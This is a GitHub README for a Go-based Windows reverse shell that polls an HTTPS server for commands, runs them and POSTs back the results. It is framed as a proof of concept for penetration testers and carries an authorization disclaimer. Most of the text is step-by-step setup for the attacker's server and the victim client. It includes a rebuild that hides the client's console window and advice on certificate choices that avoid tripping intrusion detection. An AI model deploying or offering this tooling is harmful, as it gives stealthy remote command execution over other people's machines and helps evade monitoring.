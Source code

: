 # lonely-shell

This is a proof of concept, minimal Windows reverse shell written in Golang that uses HTTPS/TLS for communication. The Linux server uses a self-signed certificate and hosts a single static file that contains a Windows command. The Windows client is a 64-bit portable executable that does a GET request every 30 seconds to obtain a Windows command from the server which then is executed and the results are sent via POST. A traffic file is included with this repository to show an example of the encrypted reverse shell communication. Also, a simple python script is provided to easily change the Windows command that the reverse shell will execute.  

This project was created due to the lack of open-source Windows reverse shells that use legitimate HTTPS traffic for communication. I hope this project can be a starting point for penetration testers who desire this capability in their engagements.

**Disclaimer: This reverse shell is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Server (Linux)

It's recommended not to use default values when creating a self-signed certificate as this could generate a certificate that will alert an IDS. Also, note that as the client/server is running you may modify `static/command.html` to the Windows command you wish to execute, or use `python setcmd.py`.

```shell
$ # clone this repository
$ git clone https://github.com/vesche/lonely-shell
$ # create a new directory for your server
$ mkdir server && cd $_
$ # generate a 2048-bit private key and a self-signed certificate
$ openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 365 -out server.crt
$ # create the static directory
$ mkdir static
$ # write a windows command to command.html for the client to GET
$ echo "dir" > static/command.html
$ # copy server.go into your server directory
$ cp ../lonely-shell/server.go .
$ # build the server
$ go build server.go
$ # start the server
$ sudo ./server
```

## Client (Windows)

You will need to modify the IP address in `client.go` to fit your needs. It's required to first build the client normally, and then build it with the switch options to hide the command prompt window. Double clicking the binary will start the client, given there is a properly configured server. The client has only been tested on Windows 7, but should work on XP - 10.

```batch
C:\> :: clone this repository
C:\> git clone https://github.com/vesche/lonely-shell && cd lonely-shell
C:\lonely-shell> :: build the client
C:\lonely-shell> go build client.go
C:\lonely-shell> :: rebuild the client so it will run in a hidden window
C:\lonely-shell> go build -ldflags -H=windowsgui client.go
C:\lonely-shell> :: start the client
C:\lonely-shell> client.exe
```
